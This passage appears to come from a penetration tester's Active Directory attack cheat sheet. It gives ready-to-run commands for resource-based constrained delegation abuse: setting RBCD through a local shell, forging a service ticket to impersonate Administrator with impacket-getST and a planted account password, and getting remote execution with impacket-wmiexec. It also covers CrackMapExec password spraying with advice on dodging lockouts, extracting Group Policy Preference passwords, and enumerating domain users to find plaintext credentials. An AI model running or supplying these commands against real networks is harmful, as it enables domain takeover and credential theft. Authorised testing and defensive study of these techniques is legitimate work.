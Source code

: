 If you successfully add the computer account:

```
nc localhost 11000
# set_rbcd [target netbios computer name]$  desktop$
```

If the last command succeeds, forge a Silver Ticket.

S4U2self + S4U2Proxy: Get a CIFS ticket for our target system as domain/Administrator using our owned cdw-desktop$ computer account.

```
impacket-getST -spn cifs/[target computer] -impersonate Administrator [domain]/'desktop$':'EvilPa$$123'
```

```
export KRB5CCNAME=/path/to/Administrator.ccache
```

```
impacket-wmiexec -k -no-pass [target fqdn]
```

## Warning on CrackMapExec usage:

Using passwords containing special characters with CrackMapExec may lead to accound lockout when spraying the creds across many systems. Be sure to test the credentials against one host before spraying across the network. You may need to escape some characters such as `Summer2022\!` or enclose the password in single quotes to prevent submitting an invalid password.

## CrackMapExec gpp_autologin and gpp_password modules

gpp_autologin - Searches the domain controller for registry.xml to find autologon information and returns the username and password.

gpp_password - Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.

`crackmapexec smb [DC IP] -u [username] -p [password] -M [module name]`

or...

`crackmapexec smb [DC IP] -u [username] -H [NLTM Hash] -M [module name]`

## Enumerate domain users

Note: Check the output for plaintext passwords in the account description field.

```
crackmapexec smb <DC IP> --users | tee logs/cme-domainusers.log
```

## Enumerate nested Domain Admin group members

First enumerate the builtin Administrators group, becuase the Domain Admins group may not be in a default location in AD.
